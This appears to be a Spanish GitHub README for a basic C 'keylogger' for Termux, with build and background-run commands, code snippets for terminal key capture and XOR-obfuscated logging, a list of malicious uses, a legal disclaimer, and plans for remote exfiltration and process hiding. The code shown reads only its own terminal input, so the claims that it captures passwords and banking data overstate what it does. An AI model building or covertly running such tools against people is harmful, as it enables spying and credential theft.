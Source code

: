
   <img src="https://github.com/V1nt3r4/keylogger_tool/blob/main/laptop-with-glowing-screen-table-dark-top-view-copy-space.jpg" />
 
# 🔐 Keylogger en C para Termux

Captura de teclas con cifrado XOR y ejecución en segundo plano

Este proyecto es un keylogger básico en C diseñado para ejecutarse en Termux (Android/Linux). Captura pulsaciones de teclas en tiempo real y las almacena en un archivo cifrado con XOR para evitar detección.

## 📌 Características

- ✅ Captura teclas sin necesidad de presionar Enter.
- ✅ Guarda las teclas en un archivo de log (`log.txt`).
- ✅ Cifra los datos usando XOR (0xAA) para evitar lectura directa.
- ✅ Corre en segundo plano usando `nohup` y `disown`.
- ✅ Descifrado de datos con un programa en C.
- ✅ Filtra caracteres no imprimibles para evitar datos corruptos.

## 📁 Estructura del Proyecto

```plaintext
📂 Keylogger
 ├── keylogger.c   # Captura y cifra teclas
 ├── decrypt.c     # Descifra el archivo log.txt
 ├── README.md     # Documentación del proyecto
 └── log.txt       # Archivo donde se guardan las teclas capturadas
```

## 🔧 Instalación y Uso

### 1️⃣ Clonar el repositorio

    git clone https://github.com/V1nt3r4/keylogger_tool.git
    cd keylogger_tool

### 2️⃣ Compilar el keylogger

    clang keylogger.c -o keylogger

### 3️⃣ Ejecutar el keylogger

    ./keylogger

🔹 Para ejecutarlo en segundo plano:

    nohup ./keylogger > /dev/null 2>&1 &
    disown

🔹 Para detenerlo:

    pkill keylogger

### 4️⃣ Ver el contenido del log (cifrado)

    cat log.txt

### 5️⃣ Descifrar el log

    clang decrypt.c -o decrypt
    ./decrypt

## 📜 Explicación del Código
### 🔹 1️⃣ Captura de teclas (get_key())

    char get_key() {
        struct termios oldt, newt;
        char ch;
        tcgetattr(STDIN_FILENO, &oldt);
        newt = oldt;
        newt.c_lflag &= ~(ICANON | ECHO);
        tcsetattr(STDIN_FILENO, TCSANOW, &newt);
        ch = getchar();
        tcsetattr(STDIN_FILENO, TCSANOW, &oldt);
        return ch;
    }

📌 Lógica:

  Modifica la terminal para desactivar el buffer de línea y eco de caracteres.
    Captura una tecla en tiempo real.
    Restaura la configuración original de la terminal.

### 🔹 2️⃣ Escritura segura en el archivo (log.txt)

    if (isprint(key)) {
    fputc(key ^ XOR_KEY, file);
    fflush(file);
    }

📌 Lógica:

  Filtra caracteres imprimibles para evitar datos corruptos.
    Cifra cada tecla con XOR (^ 0xAA) antes de escribirla en log.txt.
    fflush(file); asegura que los datos se guarden inmediatamente.

### 🔹 3️⃣ Manejo de señales (CTRL+C)

    void handle_exit(int sig) {
        if (file) fclose(file);
        printf("\n[+] Keylogger detenido. Datos guardados en      %s\n", LOG_FILE);
      exit(0);
    }

📌 Lógica:

  Intercepta CTRL+C para evitar que se cierre inesperadamente.
    Cierra correctamente el archivo log.txt antes de salir.

### 🔹 4️⃣ Descifrado de datos (decrypt.c)

    int ch;
    while ((ch = fgetc(file)) != EOF) {
    putchar(ch ^ XOR_KEY); // XOR inverso
    }

📌 Lógica:

  Lee cada carácter del archivo log.txt.
    Aplica XOR inverso (^ 0xAA) para recuperar las teclas originales.
    Muestra el resultado en pantalla.

## ⚠️ Advertencia y Mal Uso Potencial

### Uso Malicioso:

- **Captura de datos sensibles**: En manos de actores maliciosos, el keylogger podría utilizarse para capturar contraseñas, datos bancarios o información personal.
-  **Espionaje**: Un atacante podría monitorear las pulsaciones de teclas de un usuario para espiar conversaciones, correos electrónicos o mensajes privados.
- **Robo de identidad**: La información recopilada podría ser utilizada para suplantar la identidad del usuario y acceder a cuentas personales o corporativas.
- **Exfiltración de datos**: Combinado con técnicas de red, el keylogger puede enviar datos a un servidor remoto sin que el usuario lo note.

## 💻 Aplicaciones en Ciberseguridad
### 🔹 1️⃣ Seguridad Ofensiva (Pentesting)

- Se usa para testear seguridad en sistemas Linux.
- Puede demostrar fallos en la protección de terminales.
- Puede probar la efectividad de antivirus y herramientas de detección.

### 🔹 2️⃣ Seguridad Defensiva

- Ayuda a detectar comportamiento sospechoso en procesos.
- Puede ser usado para analizar técnicas de malware y crear contramedidas.
- Demuestra la importancia de proteger stdin en Linux.

### 🔹 3️⃣ Educación y Entrenamiento

-  Permite entender cómo funciona la captura de eventos de teclado en Linux.
- Introduce el concepto de cifrado XOR en aplicaciones de seguridad.
    Enseña cómo ocultar procesos en sistemas basados en Unix.

### ⚠️ Advertencia Legal

Este keylogger fue desarrollado con fines educativos y de auditoría en ciberseguridad.
El uso de este software en sistemas sin permiso es ilegal y puede tener consecuencias penales.

Úsalo bajo tu propia responsabilidad y solo en entornos controlados.

## 🎯 Mejoras Futuras

🔹 Enviar logs cifrados a un servidor remoto.
🔹 Mejor manejo de procesos y ocultación.
🔹 Soporte para capturar teclas especiales (Shift, Enter).
 
